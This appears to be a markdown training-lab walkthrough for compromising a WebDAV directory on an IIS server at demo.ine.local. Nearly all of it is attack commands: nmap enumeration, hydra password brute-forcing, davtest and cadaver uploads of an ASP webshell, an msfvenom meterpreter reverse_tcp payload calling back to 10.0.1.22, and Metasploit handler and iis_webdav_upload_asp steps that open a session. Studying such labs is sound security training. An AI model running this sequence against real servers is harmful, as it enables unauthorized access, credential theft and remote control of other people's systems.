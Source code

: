 - __1. Running http-enum nmap script to discover interesting directories.__
  - `nmap --script http-enum -sV -p 80 demo.ine.local`

__Brute Force Attack on authorized web__
- `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt demo.ine.local http-get /webdav`

- __2.Running davtest tool.__
  - *Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.*
  - `davtest -url http://demo.ine.local/webdav`
  - `davtest -auth user:password -url http://demo.ine.local/webdav`

- __3.Upload a .asp backdoor on the target machine to /webdav directory using cadaver utility.__
  - `The .asp backdoor present in “/usr/share/webshells/asp/” directory. i.e /usr/share/webshells/asp/webshell.asp`
  - * Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.*
  - `cadaver http://demo.ine.local/webdav`

 - __4. Other method using msfconsole__
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.1.22 LPORT=1234 -f asp > shell.asp`
- `cadaver http://10.0.1.22/webdav`
  - __Now you have upload the shell.asp file in webside__v

- `service postgresql start && msfconsole`
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost and lport
exploit
sessions -i 1
```
- __run the shell.asp that you upload using cadaver__
# __OR__
- `service postgresql start && msfconsole`
```
use multi/handler
use exploit/windows/iis/iis_webdav_upload_asp
set lhost,lport,HttpUsername& Httppassword
set RHOST <target ip>
set PATH /webdav/shell.asp
exploit
sessions -i <UID>
```


